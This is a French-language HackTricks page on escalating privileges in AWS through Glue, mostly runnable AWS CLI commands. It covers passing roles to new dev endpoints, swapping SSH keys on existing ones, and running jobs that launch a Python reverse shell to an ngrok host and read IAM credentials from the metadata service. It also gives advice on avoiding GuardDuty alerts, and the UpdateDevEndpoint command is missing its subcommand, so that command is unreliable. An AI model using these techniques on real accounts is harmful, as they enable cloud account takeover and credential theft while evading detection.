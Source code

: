 # AWS - Privilège d'escalade Glue

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Un attaquant ayant les autorisations `iam:PassRole` et `glue:CreateDevEndpoint` pourrait **créer un nouveau point de terminaison de développement AWS Glue et lui transmettre un rôle de service existant**. Ensuite, il pourrait se connecter en SSH à l'instance et utiliser l'AWS CLI pour avoir accès aux autorisations auxquelles le rôle a accès.

```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
    --role-arn arn_of_glue_service_role \
    --public-key file:///path/to/my/public/ssh/key.pub
```

Maintenant, l'attaquant aurait juste besoin de **se connecter en SSH au point de terminaison de développement** pour accéder aux informations d'identification des rôles.

```bash
# Obtenir l'adresse publique de l'instance
## Vous pouvez également utiliser get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH avec l'utilisateur glue
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Bien qu'il ne soit pas spécifiquement noté dans la documentation de GuardDuty, il serait une mauvaise idée d'extraire les informations d'identification de l'instance Glue. Au lieu de cela, **l'API AWS devrait être accédée directement depuis la nouvelle instance**.

**Impact potentiel :** Privilège d'escalade vers le rôle de service Glue spécifié.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Un attaquant ayant l'autorisation **`glue:UpdateDevEndpoint`** serait en mesure de **mettre à jour la clé publique SSH associée à un point de terminaison de développement Glue existant**, pour ensuite se connecter en SSH et avoir accès aux autorisations auxquelles le rôle attaché a accès.

```bash
# Changer la clé publique pour se connecter
aws glue --endpoint-name target_endpoint \
    --public-key file:///path/to/my/public/ssh/key.pub

# Obtenir l'adresse publique de l'instance
## Vous pouvez également utiliser get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH avec l'utilisateur glue
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Maintenant, l'attaquant aurait juste besoin de **se connecter en SSH au point de terminaison de développement pour accéder aux informations d'identification des rôles**. L'API AWS devrait être accédée directement depuis la nouvelle instance pour éviter de déclencher des alertes.

**Impact potentiel :** Privilège d'escalade vers le rôle de service Glue utilisé.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Un attaquant ayant ces autorisations peut **créer/mettre à jour un travail en attachant n'importe quel compte de service Glue** et le démarrer. Le travail peut exécuter du code Python arbitraire, de sorte qu'un shell inversé peut être obtenu et utilisé pour **voler les informations d'identification IAM** du rôle attaché.

```bash
# Contenu du script Python enregistré dans s3 :
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#Pour obtenir les informations d'identification IAM, exécutez : curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# Un rôle Glue avec un accès administrateur a été créé
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# Vous pouvez directement démarrer le travail
aws glue start-job-run --job-name privesctest
# Ou vous pouvez créer un déclencheur pour le démarrer
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Toutes les 5 minutes, n'hésitez pas à changer
```

**Impact potentiel :** Privilège d'escalade vers le rôle de service Glue spécifié.

### `glue:UpdateJob`

Rien qu'avec l'autorisation de mise à jour, un attaquant pourrait voler les informations d'identification IAM du rôle attaché.

**Impact potentiel :** Privilège d'escalade vers le rôle de service Glue attaché.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
